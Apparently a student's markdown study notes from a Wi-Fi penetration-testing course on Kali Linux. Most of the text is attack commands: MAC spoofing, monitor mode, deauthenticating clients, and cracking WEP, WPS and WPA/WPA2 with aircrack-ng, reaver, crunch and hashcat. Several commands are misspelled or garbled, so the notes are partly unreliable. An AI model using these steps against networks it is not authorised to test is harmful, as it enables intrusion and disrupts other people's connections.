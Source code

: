 
**INSTALLATION**
install link for kalilinux - https://zsecurity.org/download-custom-kali/
unzip it
Go to vm ware, file -open -this unzipped file
check settings 
run <br>

**LINUX BASIC COMMANDS:**
- pwd
- ls    ls -l
- cd   cd ..
- man ls (or )man cd  ls --help -> helps in detail
- tab -> auto complete
- apt-get    -> donwload or install progs (or) apps
- apt-get update
- apt-get install app_name -y
**NEEDED APPS:**    (apt-get install terminator)
terminator  - spliting option in terminal
**WEBSITES:**
explainshell.com


## PRE CONNECTION SETUP KNOWLEDGE

#### wireless adapter with props:- 
-monitor mode
-packet injection
-AP mode
-Recommended brand: Atheros AR9271, Realtek RTL8812AU

before connecting network interface
cmd- **ifconfig**
eth0 and lo
after connecting to machine
cmd- **iwconfig**
eth0 lo and wlan0

MAC-media access control     (network device address )    which will be same in all computers
permanent, physical, unique    (assigned by manufacturer to network interafces like wifi, wifi card,wifi adapters,wired)
contains source mac and destination mac
change MAC address to become anonymous    
Uses: Bypass filter, anonymity

**Network Interfaces**
- network interface – any device allowing us to connect to a network
- inside eth0 or wlan0 or lo ether ____________  is mac address in managed mode, ether is not shown and unspec is shown in monitor mode(first 12 digits without in monitor mode
- ifconfig -> show all interfaces
- iwconfig → show all wireless network interfaces

#### Change MAC address
> ifconfig wlan0 down    (for disabling before the change process) <br>
> ifconfig wlan0 hw ether 00:11:22:33:44:55     (after restart get resetted)<br>
> ifconfig wlan0 up <br>

- device1 MAC accept data only If the device2 have its destination MAC as  device1   
- default mode for network devices is managed mode   (captures packets only from destination mac address )
- Eg:source mac address: 00:11:22:3
     destination mac address : 00:55:34:56
-can do monitor using monitor mode    (captures packets from any destination address almost all)
> iwconfig wlan0 down <br>
> iwconfig wlan0 mode monitor <br>
> iwconfig wlan0 up <br>
- attacks don't need any internet connection


### PACKET SNIFFING
**aircrack-ng**
> airodump-ng mon0      → shows the packets
most of the wifi adapter only communicates with 2.5ghz frequency

ESSID      name
BSSID      mac_address
PwR    signal strength
#/s      data collected per second
CH     works on channel
MB    maximum speed
ENC   encryption mode
AUTH   authentication used
airodump-ng  --band a mon0            shows 5G networks tooo
airodump-ng  -- bssid  11:21:G6:14   - -channel  2  - - write  filename   mon0 
ctr C     ( to stop)


### Deauthentication 
To pretend as client having its mac address
To pretend like router having its mac address and disconnecting all networks
**airplay-ng**
>airplay-ng  --deauth  100000000 -a target_router_mac_address  -c client_mac_address  mon0   (mac_address info is taken from airodump-ng)
>ctr  C    to stop

## GAINING ACCESS: 

### WEP CRACKING
- The client encrypts the data with a unique key and sends in air to the router
- This router decrypts the data using same key.
- Initial vector + passsword =  keystream
- keystream + “this is the message”  →  cnu3dhubd   (encoded)
- router always have the key but not Initial vector(IV)
- IV is only 24bits so it repeats it again and again without creating unique key

Methods
- airodump-ng   to capture all packets/IVs
- aircrack-ng      to analyze the IVs and crack the key <br>
> airodump-ng  --bssid  target_mac  --channel  2  --write  filename   mon0    <br>
- filename.cap is the file <br>
> aircrack-ng filename.cap 
- prompts key found!  23:42:23:A2
- put the password in wifi as 234223A2  done

#### Fakeauth attack
a for accknowledge must do before all attacks
>aireplay-ng - -fakeauth 0 -a target_mac -h my_mac

#### Arp request reply attack
if the router or wifi is not having more data passed, it can't be cracked,so need to inject more packages with aireplay <br>
>aireplay-ng - -fakeauth 0 -a target_mac -h my_mac   (ACK for telling we are connecting to the netw interface ) <br>
>airodump-ng  - - bssid  target_mac  - -channel  2  - - write  file_name  mon0 <br>
>aireplay-ng  - -arpreplay -b target_mac -h my_mac mon0        check data value in info <br>
>aircrack-ng filename.cap <br>
or 

#### Korek ChopChop Attack   (refer somewhere) <br>
or
#### Fragmentation Attack (refer somewhere) <br>

### WPA AND WPA2 CRACKING

- wpa and wpa2 have the wps push button enabled or disable which is useful in cracking.
- This wps feature can be found by
> wash  - - interface mon0
- Lck   tells locked or not
- it may fail if the target router has PBC(push button auth) or wps disabled

>reaver - -bssid  target_mac - -channel 1 - -interface mon0 -vvv - -no-associate <br>
paralleley add the down cmd <br>
>aireplay-ng - -fakeauth 0 -a target_mac -h my_mac <br>

- when PBC(push button auth) or wps disabled, use the following method <br>
>airplay-ng  - -deauth  4 -a target_router_mac_address  -c client_mac_address  mon0   (use –deauth 4 so that client don't identify they are disconnected)

**Create word list:**
crunch
> crunch 6 8 abctd123$@ -o pass.txt
- 6 min combinations
- 8 max combinations
- abctd123$@ combinations to use 

>aircrack-ng handshake.cap  -w pass.txt
done :)

**Pairwise Master Key** from word list (faster than previous)
>airolib-ng test-db  - -import password pass.txt
- create a text file with essid 
>airolib-ng test-db  - -import essid essid.txt
>airolib-ng test-db –batch
- done :)

>aircrack-ng -r test-db handshake.cap  
done :)

**Hashcat** (use GPU - fastest cracking ) in windows      
- download converted file of .cap to .hccapx and add it in hashcat dir
- add pass.txt in hashcat dir
>hashcat64.exe -I          shows cpu and gpu info <br>
>hashcat64.exe -m 2500 -d 1 handshake.hcapx pass.txt <br>
- m - wpa/wpa2 hash 
- d -  which device to use

